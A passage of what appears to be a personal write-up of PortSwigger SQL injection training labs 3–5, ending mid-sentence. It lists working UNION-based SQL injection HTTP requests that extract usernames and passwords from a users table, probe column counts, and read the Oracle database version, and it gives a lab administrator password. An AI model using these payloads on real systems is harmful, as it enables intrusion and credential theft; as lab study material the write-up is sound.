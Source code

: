 ### Lab 3

> SQL injection UNION attack, retrieving data from other tables

I had to use the previous technique. However, instead of adding `NULL` values, I had to retrieve columns from another table, named `users`.

To do this, I used the following HTTP request:

```htpp
GET /filter?category=Gifts'+UNION+SELECT+username,password+FROM+users-- HTTP/1.1
```

Once I got the usernames, and the corresponding passwords, I could log in as the user `administrator` (password: `pctpvrt1enp3ro5r25eb`).

### Lab 4

> SQL injection attack, querying the database type and version on Oracle

Since I had to "[...] display the database version string", I started with the following request:

```http
GET /filter?category=Pets'+ORDER+BY+2-- HTTP/1.1
```

Since I found out that the query extracts two columns, I tried using an UNION SQLi:

```http
GET /filter?category=Pets'+UNION+SELECT+NULL,NULL+FROM+DUAL-- HTTP/1.1
```

Initially, I wasn't using `FROM DUAL` (I didn't read the last part about the database being an Oracle one), so I was receiving HTTP 500s (Internal Server Error). After adding `FROM DUAL`, I was getting again HTTP 200s.

The overview page contains a table in the section `Examining the database`, where states that you must use `SELECT * FROM v$version;` for Oracle databases.

In particular, this table has only one column, named `Banner`. Consequently, I crafted this request:

```http
GET /filter?category=Pets'+UNION+SELECT+Banner,NULL+FROM+v$version-- HTTP/1.1
```

According to [this page](https://portswigger.net/web-security/sql-injection/cheat-sheet) I could also use `SELECT version FROM v$instance`.

### Lab 5

The lab is akin to the previous one, however I couldn't use `--` to comment the rest of the query (since it's probably a MySQL database). I found out I could use `#` instead (or `--+`, since `+` represents a space).

```http
GET /filter?category=Gifts'ORDER+BY+2--+ HTTP/1.1
```

Alternatively, this one:
